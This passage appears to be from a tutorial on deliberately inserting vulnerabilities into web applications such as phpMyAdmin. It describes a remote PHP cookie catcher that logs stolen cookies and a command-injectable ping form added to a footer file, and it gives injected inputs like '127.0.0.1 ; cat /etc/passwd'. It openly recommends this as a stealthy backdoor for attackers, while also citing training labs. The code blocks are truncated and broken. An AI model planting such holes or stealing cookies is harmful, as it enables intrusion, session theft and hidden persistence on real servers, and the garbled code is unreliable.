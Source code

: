 Code for "message.php", once the message is sent, this code stores the message in a file named text.html

``` php IP: ' .$ip. '  
Date and Time: ' .$date. '  
Referer: '.$referer.'  

'); fclose($fp); //Redirect the user to google.com header ("Location: http://www.google.com"); ?> ```

Code for "Cookie Catcher file". Note that this file should be stored somewhere on the internet, we call the url of the file with an argument "c" in which we pass the cookie. This file then takes the cookie and other information and writes all the values into a file named "user_info.html".

``` php IP: ' .$ip. '  
Date and Time: ' .$date. '  
Referer: '.$referer.'  

'); fclose($fp); //Redirect the user to google.com header ("Location: http://www.google.com"); ?> ``` **5) Inserting Remote Command Execution vulnerability**

Phpmyadmin comes with a footer.php file where we can write code which should appear at the bottom of every page in the application. In this case the admin allows the user to ping any server in the world by running the ping command on his server but not filtering out the input properly. So if the attacker inputs something like this _"127.0.0.1 ; ls" OR "127.0.0.1 ; cat /etc/passwd"_ he can run these commands on the remote webserver and see the output too.

Here is how the footer appears in phpMyAdmin

![PhpRemoteExexVuln]({{site.baseurl}}/images/posts/insvul/phpRemoteExexVuln.png)

Once we click on submit, the output result looks like this. We can easily deduce that we now have the ability to execute remote commands on the server.

![RemoteExecResult]({{site.baseurl}}/images/posts/insvul/remoteExecResult.png)

Here is the code for the file "config.footer.inc.php"

``` php

# Find which server is online anywhere in the world

Enter an IP address of the server below:

<form name="ping" action="ping.php" method="post"><input type="text" name="ip" size="30"> <input type="submit" value="submit" name="submit"></form>

```

Here is the code for the file "ping.php"

``` php ```

## Conclusion

In this article we looked at how we can insert vulnerabilities in web applications. We took some of the popular open source applications like Joomla and phpMyAdmin as the example, learnt how it protected itself from various common exploits and then bypassed those protection mechanisms to make the application vulnerable. Inserting vulnerabilities can be useful for many reasons, a company might want to set up a test environment for it's users to test their Web Application Security skills, or because an attacker who has already broken into the web application might want to leave a backdoor so that he can get access later. Hence, instead of leaving behind a standalone backdoor which stands apart from all the web applications on the server and could be easily detected , inserting a vulnerability in a web application is a much better option because of the stealth involved in this case.

## References:
```
